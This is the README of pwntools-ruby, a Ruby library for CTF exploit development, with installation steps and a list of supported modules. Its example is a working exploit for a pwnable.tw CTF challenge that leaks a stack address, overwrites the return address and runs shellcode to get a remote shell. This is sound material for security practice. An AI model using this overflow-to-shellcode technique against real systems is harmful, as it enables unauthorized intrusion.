 [![GitHub stars](https://img.shields.io/github/stars/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/stargazers)
[![GitHub issues](https://img.shields.io/github/issues/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/issues)
[![Build Status](https://github.com/peter50216/pwntools-ruby/workflows/build/badge.svg)](https://github.com/peter50216/pwntools-ruby/actions)
[![Test Coverage](https://img.shields.io/codeclimate/coverage/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby/coverage)
[![Code Climate](https://img.shields.io/codeclimate/maintainability/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby)
[![Inline docs](https://inch-ci.org/github/peter50216/pwntools-ruby.svg)](https://inch-ci.org/github/peter50216/pwntools-ruby)
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](http://choosealicense.com/licenses/mit/)
[![Dependabot Status](https://api.dependabot.com/badges/status?host=github&repo=peter50216/pwntools-ruby)](https://dependabot.com)
[![Rawsec's CyberSecurity Inventory](https://inventory.raw.pm/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.raw.pm/)
<!-- [![Dependency Status](https://img.shields.io/gemnasium/peter50216/pwntools-ruby.svg)](https://gemnasium.com/peter50216/pwntools-ruby) -->

# pwntools-ruby

Always sad when playing CTF that there's nothing equivalent to pwntools in Python.
While pwntools is awesome, I always love Ruby far more than Python...
So this is an attempt to create such library.

Would try to have consistent naming with original pwntools, and do things in Ruby style.

# Example Usage

Here's an exploitation for `start` which is a challenge on [pwnable.tw](https://pwnable.tw).

```ruby
# encoding: ASCII-8BIT
# The encoding line is important most time, or you'll get "\u0000" when using "\x00" in code,
# which is NOT what we want when doing pwn...

require 'pwn'

context.arch = 'i386'
context.log_level = :debug
z = Sock.new 'chall.pwnable.tw', 10000

z.recvuntil "Let's start the CTF:"
z.send p32(0x8048087).rjust(0x18, 'A')
stk = u32(z.recvuntil "\xff")
log.info "stack address: #{stk.hex}" # Log stack address

# Return to shellcode
addr = stk + 0x14
payload = addr.p32.rjust(0x18, 'A') + asm(shellcraft.sh)
z.write payload

# Switch to interactive mode
z.interact
```

More features and details can be found in the
[documentation](http://www.rubydoc.info/github/peter50216/pwntools-ruby/master/frames).

# Installation

### Install the latest release:
```sh
gem install pwntools
```

### Install from master branch:
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle install && bundle exec rake install
```

### optional

Some of the features (assembling/disassembling) require non-Ruby dependencies. Checkout the
installation guide for
[keystone-engine](https://github.com/keystone-engine/keystone/tree/master/docs) and
[capstone-engine](http://www.capstone-engine.org/documentation.html).

Or you are able to get running quickly with

```sh
# Install Capstone
sudo apt-get install libcapstone3

# Compile and install Keystone from source
sudo apt-get install cmake
git clone https://github.com/keystone-engine/keystone.git /tmp/keystone
cd /tmp/keystone
mkdir build
cd build
../make-share.sh
sudo make install
```

# Supported Features

## Architectures

- [x] i386
- [x] amd64
- [ ] arm
- [ ] thumb

## Modules

- [x] context
- [x] asm
- [x] disasm
- [x] shellcraft
- [x] elf
- [x] dynelf
- [x] logger
- [x] tube
  - [x] sock
  - [x] process
  - [x] serialtube
- [ ] fmtstr
- [x] util
  - [x] pack
  - [x] cyclic
  - [x] fiddling

# Development
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle
bundle exec rake
```

# Note to irb users
irb defines `main.context`.

For the ease of exploit development in irb, that method would be removed if you use `require 'pwn'`.

You can still get the `IRB::Context` by `irb_context`.
